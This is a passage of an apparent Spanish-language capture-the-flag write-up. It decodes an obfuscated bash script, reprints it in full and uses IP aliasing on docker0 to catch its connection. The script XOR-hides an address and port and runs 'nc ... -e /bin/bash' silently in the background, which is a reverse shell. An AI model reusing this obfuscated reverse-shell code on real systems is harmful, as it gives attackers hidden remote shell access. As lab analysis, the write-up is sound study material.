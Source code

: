 ~~~ bash

$e $g $h $f /bin/bash &>/dev/null &
~~~ 

Analizando el código, se ejecuta `netcat`, se envía el `stdout` al `/dev/null` y se ejecuta en segundo plano para no percibir la ejecución

~~~ bash
nc $g $h -e /bin/bash
~~~ 

Dado que `nc` recibe una IP y un puerto, podemos interpretar las variables `c` y `b` en una consola. Podemos traer el script a nuestra máquina y quitarle `&>/dev/null &` para ver a qué dirección IP se envía la conexión

> Archivo `life_copy.sh` 

~~~ bash
#!/bin/bash

set +m

v1=$((0xCAFEBABE ^ 0xAC1100BA))
v2=$((0xDEADBEEF ^ 0x17B4))

a=$((v1 ^ 0xCAFEBABE))
b=$((v2 ^ 0xDEADBEEF))

c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))

d=$((b))

e="nc"
f="-e"
g=$c
h=$d

$e $g $h $f /bin/bash
~~~

Si lo ejecutamos deberíamos ver a quién se envía la conexión
~~~ bash
bash life_copy.sh
(UNKNOWN) [172.17.0.186] 6068 (?) : No route to host
~~~


## IP Aliasing

Agregaremos una IP virtual a la interfaz `docker0` para que el contenedor interprete que `172.17.0.186` somos nosotros además de la IP `172.17.0.1`

~~~ bash
sudo ip addr add 172.17.0.186/16 dev docker0
ip addr | grep docker0                 

4: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
    inet 172.17.0.186/16 scope global secondary docker0
6: veth5af3a2f@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
8: veth90e536c@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
~~~
